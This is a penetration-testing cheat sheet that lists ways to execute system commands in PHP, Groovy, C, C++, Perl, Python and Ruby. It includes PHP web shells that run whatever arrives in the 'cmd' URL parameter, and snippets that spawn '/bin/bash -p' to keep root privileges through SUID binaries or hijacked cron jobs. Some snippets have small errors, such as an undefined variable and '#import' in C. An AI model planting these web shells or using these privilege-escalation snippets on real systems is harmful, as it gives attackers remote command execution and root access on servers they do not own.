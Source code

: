 # EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages. Usage of these code listsings depends on the situation at hand. Sometimes, they can be added into scripts, used to replace binaries call from `cron` or scheduled tasks and much more. The usage is left to the discretion of the penetration tester. If attacking a SUID file, rememebr that it MUST be a binary. Scripts cannot run in SUID.
## WEB LANGUAGES
### PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
#### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
#### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
#### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>
```
### Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
## C LANGUAGES
C and C-family languages usually require compilation, with the exception of JavaScript.
### C - System()
```
#import<stdlib.h>
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
### C++ - System()
```
#include <bits/stdc++.h> 
using namespace std; 
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
## Interpreterd Languages
Sometimes, scripts can also call `system()`
### Perl
```
perl -e 'system("/bin/bash -p");'
```
### Python
```
import subprocess
command = "/bin/bash -p"
process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
process.wait()
print process.returncode
```
### Bash
This is a no-brainer really. All lines in a Bash script will be executed as commands.
### Ruby
This is also a no-brainer as all strings in backticks will be executed as shell commands.
```
output = `/bin/bash -p`
p output
```
